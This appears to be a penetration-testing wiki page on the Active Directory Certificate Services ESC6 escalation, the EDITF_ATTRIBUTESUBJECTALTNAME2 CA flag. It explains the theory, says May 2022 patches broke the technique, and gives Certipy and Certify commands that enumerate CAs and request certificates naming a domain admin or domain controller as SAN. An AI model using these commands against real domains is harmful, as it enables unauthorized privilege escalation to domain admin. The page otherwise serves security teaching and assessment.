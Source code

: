 # CA configuration

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) found a domain escalation vector based on a dangerous CA setting (i.e. the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag). The escalation vector was dubbed [ESC6](https://posts.specterops.io/certified-pre-owned-d95910965cd2#2a56).

When the flag is set on the CA, templates configured for authentication (i.e. EKUs like Client Authentication, PKINIT Client Authentication, Smart Card Logon, Any Purpose (`OID 2.5.29.37.0`), or no EKU (`SubCA`)) and allowing low-priv users to enroll can be abused to authenticate as any other user/machine/admin.

{% hint style="success" %}
The default **User** template checks all the template requirements stated above.&#x20;

If the CA is configured with the  `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (admins tend to enable that flag without knowing the security implications), and the **User** template is enabled (which is very often), any user can escalate to domain admin.
{% endhint %}

{% hint style="danger" %}
[May 2022 security updates](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923) broke ESC6.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate info about the CAs, including the "**User Specified SAN**" flag state which is an alias to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -stdout | grep "User Specified SAN"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}

Once the right template is found (i.e. the default User template) ([how to enumerate](broken-reference)), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

<pre class="language-bash"><code class="lang-bash"><strong>#To specify a user account in the SAN
</strong><strong>certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'
</strong><strong>
</strong><strong>#To specify a computer account in the SAN
</strong>certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
</code></pre>

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including the "**UserSpecifiedSAN**" flag state which refers to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

```batch
Certify.exe cas
```

If the flag is enabled on a CA, certify can then be used to find all enabled templates configured with EKUs allowing for authentication, and allowing low-priv users to enroll.

```batch
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth
```

Once the right template is found (i.e. the default **User** template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```batch
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://www.keyfactor.com/blog/hidden-dangers-certificate-subject-alternative-names-sans" %}

{% embed url="https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6" %}
